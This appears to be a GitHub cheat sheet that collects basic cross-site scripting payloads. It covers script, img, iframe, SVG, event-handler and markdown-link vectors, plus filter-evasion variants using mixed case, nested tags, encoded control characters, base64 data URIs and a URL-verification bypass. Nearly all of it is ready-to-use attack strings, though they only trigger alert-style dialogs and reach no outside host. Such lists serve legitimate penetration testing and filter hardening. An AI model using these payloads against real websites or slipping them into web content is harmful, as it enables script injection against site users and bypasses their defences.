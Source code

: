 # A Collection of XSS Payload

Only some basic payloads, without using any encoding tricks.

### SCRIPT Basic Payload

```
<script>alert(123);</script>
<script>alert(123)</script>
<script>alert`123`</script>
<script>alert("XSS")</script>
<script>alert('XSS')</script>
<script>alert(/XSS/)</script>
<script>alert(String.fromCharCode(88,83,83))</script>
<script>alert(document.domain)</script>
<sCRipT>alert(123)</sCRipT>
<scr<script>ipt>alert(123)</scr<script>ipt>

<script>prompt(123)</script>
<script>confirm(123)</script>
```

### IMG Payload

```
<img src=x onerror=alert(123);>
<img src=x onerror=alert(123)>
<img src=x onerror=alert`123`>
<img src=x onerror=alert(123)//abc  >
<img src=x onerror="alert(123)">
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83))>
```

> **NOTE:** Other tags that could use "src" attribute: **&lt;audio&gt;, &lt;video&gt;, &lt;script&gt;, &lt;iframe&gt;, &lt;embed&gt;**

```
<img/src='x'/onerror=alert(123)>
<img/src/onerror=alert(123)>
```

> **NOTE:** Other tags that could be used like this: **&lt;audio&gt;, &lt;video&gt;, &lt;script&gt;**

```
<embed src=x onload=alert(123)>
<iframe src=x onload=alert(123)>
<iframe/src/onload=alert(123)>
```

### IFRAME Payload

```
<iframe src=x onload=alert(123)>
<iframe/src/onload=alert(123)>
<iframe src="javascript:alert(123)">
<iframe src=javascript:alert(123)>
<iframe src=javascript:alert`123`>
<iframe/src=javascript:alert(123)>
<iframe/src="data:text/html,<svg/onload=alert(123)>">
<iframe/src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMTIzKT4=">

<embed/src="data:text/html,<svg/onload=alert(123)>">
<embed/src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMTIzKT4=">

<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

```
<iframe src="jav&#x09;ascript:alert(123)">
```

> **NOTE:** Embed encoded tab.


```
<iframe src="jav&#x0A;ascript:alert(123)">
```

> **NOTE:** Embed encoded newline.

```
<iframe src="jav&#x0D;ascript:alert(123)">
```

> **NOTE:** Embed encoded carriage return.

### SVG Payload

```
<svg onload=alert(123)>
<svg onload=alert(123)//abc >
<svg/onload=alert(123)>
<svg id=alert(123) onload=eval(id)>
```

### Other Payloads

```
<a href="javascript:alert(123)">123</a>
<a href=javascript:alert(123)>123</a>
<a/href="javascript:alert(123)">123</a>
```

```
<body onload=alert(123)>
<body/onload=alert(123)>
<body/onload=alert(123)//abc >
```

> **NOTE:** Other tags that could be used like this: **&lt;style&gt;**

```
<input onmouseover=alert(123)>
<input/onmouseover=alert(123)>
<input autofocus onfocus=alert(123)>
```

> **NOTE:** Other tags that could be used like this: **&lt;select&gt;, &lt;testarea&gt;**

```
<details open ontoggle=alert(123)>
<details/open/ontoggle=alert(123)>
<details/open/ontoggle="alert(123)">
```

```
<script>
foo="text</script><script>alert(123)</script>";
</script>

<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

```
<var onmouseover=alert(123)>var</var>
<var/onmouseover=alert(123)>var</var>
```

```
<x onclick=alert(123)>click here
<x/onclick=alert(123)>click here
<x onmouseover=alert(123)>mouseover here
<x/onmouseover=alert(123)>mouseover here
```


Refer: https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md

### Markdown Payloads

```
[a](javascript:confirm(123))
[a](javascript://www.google.com%0Aconfirm(123))
[a](javascript://%0D%0Aconfirm(123))
[a](javascript://%0D%0Aconfirm(123);com)
[a](javascript:window.onerror=confirm;throw%201)
[a]: (javascript:confirm(123))
```

### URL Verification Bypass (works without &amp#x09; too)

```
javas&#x09;cript://www.google.com/%0Aalert(1)
```
